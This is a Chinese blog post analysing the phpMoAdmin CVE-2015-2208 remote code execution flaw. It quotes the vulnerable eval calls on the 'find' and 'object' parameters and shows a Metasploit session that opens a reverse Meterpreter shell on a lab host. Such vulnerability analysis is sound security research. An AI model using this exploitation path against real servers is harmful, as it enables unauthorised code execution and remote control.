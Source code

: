 ```yaml
---
layout: post
title: phpMoadmin CVE-2015-2208 远程代码执行漏洞分析
---
```


{{ page.title }}
================
<p class="date">{{ page.date | date_to_string }} - Tr3jer_CongRong</p>

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**phpMoAdmin 是一个用PHP 开发的在线MongoDB 管理工具，可用于创建、删除和修改数据库和索引，提供视图和数据搜索工具，提供数据库启动时间和内存的统计，支持JSON 格式数据的导入导出。**

<img src="https://blog-1252048719.cos.ap-shanghai.myqcloud.com/65ehrtdfgx.png">

>/phpmoadmin/moadmin.php 第555行

    public function listRows($collection) {
        foreach ($this->sort as $key => $val) { //cast vals to int
            $sort[$key] = (int) $val;
    }
    $col = $this->mongo->selectCollection($collection);
    $find = array();
	if (isset($_GET['find']) && $_GET['find']) {
		$_GET['find'] = trim($_GET['find']);
		if (strpos($_GET['find'], 'array') === 0) {
			eval('$find = ' . $_GET['find'] . ';');
		} else if (is_string($_GET['find'])) {
			if ($findArr = json_decode($_GET['find'], true)) {
				$find = $findArr;
			}
		}
	}

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**在这个`listRows`方法中，eval执行GET接收的`find`参数，首先`$find`变量初始化为数组，而且通过strpos判断传入的值是否为数组。看看哪里调用了这个方法。**

>/phpmoadmin/moadmin.php 第836行

	if (isset($_GET['collection']) && $action != 'listCollections' && method_exists(self::$model, $action)) {
        $this->mongo[$action] = self::$model->$action($_GET['collection']);
        $this->mongo['count'] = self::$model->count;
        $this->mongo['colKeys'] = self::$model->colKeys;
    }

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**首先需要设置`collection`，根据`$action`跟踪到第785行，这里就可以通过`action`接收`listRows`参数来调用`listRows`方法。**

	$action = (isset($_GET['action']) ? $_GET['action'] : 'listCollections');

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**整体触发漏洞的逻辑就是首先通过`action`接收`listRows`，调用这个方法后，eval就会执行`$find`传入的值。由于过滤不严，即可执行传入的任意恶意代码。**

<img src="https://blog-1252048719.cos.ap-shanghai.myqcloud.com/r67jtydhrgdfs.png">

>/phpmoadmin/moadmin.php 第693行

	public function saveObject($collection, $obj) {
        eval('$obj=' . $obj . ';'); //cast from string to array
        return $this->mongo->selectCollection($collection)->save($obj);
    }

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**`saveObject`函数中eval执行了形参$obj，找找哪里调用了这个函数。**

>/phpmoadmin/moadmin.php 第786行

	if (isset($_POST['object'])) {
            if (self::$model->saveObject($_GET['collection'], $_POST['object'])) {
                return $this->_dumpFormVals();
            } else {
                $action = 'editObject';
                $_POST['errors']['object'] = 'Error: object could not be saved - check your array syntax.';
            }
    }

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**开头检查POST是否传输了`object`，随后内包含的if进行判断，这个过程即调用了当前类的`saveObject`方法，POST传入`object`参数的值带入eval后就造成了代码执行。**

<img src="https://blog-1252048719.cos.ap-shanghai.myqcloud.com/Screen%20Shot%202016-03-06%20at%2012.24.03%20AM.png">

>Msf也已经更新了此漏洞的Exploit:

	msf > use exploit/multi/http/phpmoadmin_exec
	msf exploit(phpmoadmin_exec) > show options
	
	Module options (exploit/multi/http/phpmoadmin_exec):
	Name       Current Setting  Required  Description
	----       ---------------  --------  -----------
	Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
	RHOST                       yes       The target address
	RPORT      80               yes       The target port
	SSL        false            no        Negotiate SSL/TLS for outgoing connections
	TARGETURI  /                yes       The URI path of the PHPMoAdmin page
	VHOST                       no        HTTP server virtual host
	
	Exploit target:
	
	Id  Name
	--  ----
	0   PHPMoAdmin
	
	msf exploit(phpmoadmin_exec) > set RHOST 172.16.20.136
	RHOST => 172.16.20.136
	msf exploit(phpmoadmin_exec) > set TARGETURI /phpmoadmin
	TARGETURI => /phpmoadmin
	msf exploit(phpmoadmin_exec) > exploit
	
	[*] Started reverse TCP handler on 172.16.20.1:4444
	[*] Executing payload...
	[*] Sending stage (33684 bytes) to 172.16.20.136
	[*] Meterpreter session 1 opened (172.16.20.1:4444 -> 172.16.20.136:33492) at 2015-03-05 22:34:56 +0800
	
	meterpreter > ls
	Listing: /php/www/phpmoadmin
	=================================
	
	Mode              Size    Type  Last modified              Name
	----              ----    ----  -------------              ----
	100644/rw-r--r--  31713   fil   2015-03-05 21:42:58 +0800  LICENSE
	100644/rw-r--r--  5078    fil   2015-03-05 21:42:58 +0800  README.textile
	100644/rw-r--r--  1858    fil   2015-03-05 21:42:58 +0800  change.log
	100644/rw-r--r--  111430  fil   2015-03-05 21:42:58 +0800  moadmin.php